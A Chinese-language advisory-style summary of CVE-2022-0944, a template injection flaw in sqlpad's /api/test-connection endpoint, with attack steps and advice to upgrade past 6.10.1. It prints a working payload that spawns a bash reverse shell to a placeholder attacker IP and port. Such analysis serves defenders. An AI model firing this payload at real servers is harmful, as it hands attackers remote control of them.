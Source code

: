 ## CVE-2022-0944-sqlpad-RCE

**漏洞编号:** CVE-2022-0944

**漏洞类型:** 模板注入导致RCE

**影响应用:** sqlpad

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** < 6.10.1

**利用条件:** 需要具有连接测试的权限（高权限用户）

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2022-0944 是 sqlpad 中存在的一个模板注入漏洞，位于连接测试端点。攻击者可以通过构造恶意的模板注入payload，在目标服务器上执行任意代码，从而获得服务器的控制权。

**有效性：**

根据漏洞库信息、搜索结果以及提供的漏洞利用代码，该漏洞利用是有效的。漏洞库信息明确指出存在模板注入导致RCE的漏洞，搜索结果也指向了相关漏洞细节和POC。提供的PHP代码通过向 `/api/test-connection` 发送包含恶意payload的JSON数据，从而触发远程代码执行。

**投毒风险：**

分析提供的`exploit.php`代码，未发现明显的恶意代码或后门。该脚本的功能主要是发送包含模板注入payload的HTTP请求，以触发目标服务器上的RCE。脚本的逻辑清晰，且直接使用了cURL库发送请求，没有发现任何尝试隐藏或执行其他恶意操作的代码。脚本只是一个exploit，不是后门。

**利用方式：**

1.  **漏洞点：** `/api/test-connection` 接口的 `database` 字段存在模板注入。
2.  **攻击步骤：**
    *   攻击者需要先监听一个端口（例如4444）。
    *   攻击者构造包含恶意代码的JSON数据，恶意代码通常是反弹shell的命令。
    *   攻击者将构造好的JSON数据发送到 `/api/test-connection` 接口。
    *   如果目标服务器存在漏洞，且模板引擎执行了攻击者的恶意代码，目标服务器会反弹shell到攻击者的监听端口。
3.  **Payload：**

    ```
    {{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/$attacker_ip/$attacker_port 0>&1"') }}
    ```

    该payload使用Node.js的 `child_process.exec` 函数执行系统命令，`/bin/bash -c` 执行一段bash脚本，该脚本的作用是创建一个反向shell连接到攻击者的IP地址和端口。

**总结：**

CVE-2022-0944 是一个高危漏洞，攻击者可以利用该漏洞远程执行任意代码。需要及时升级 sqlpad 到 6.10.1 或更高版本。

**项目地址:** [LipeOzyy/SQLPad-RCE-Exploit-CVE-2022-0944](https://github.com/LipeOzyy/SQLPad-RCE-Exploit-CVE-2022-0944)

**漏洞详情:** [CVE-2022-0944](https://nvd.nist.gov/vuln/detail/CVE-2022-0944)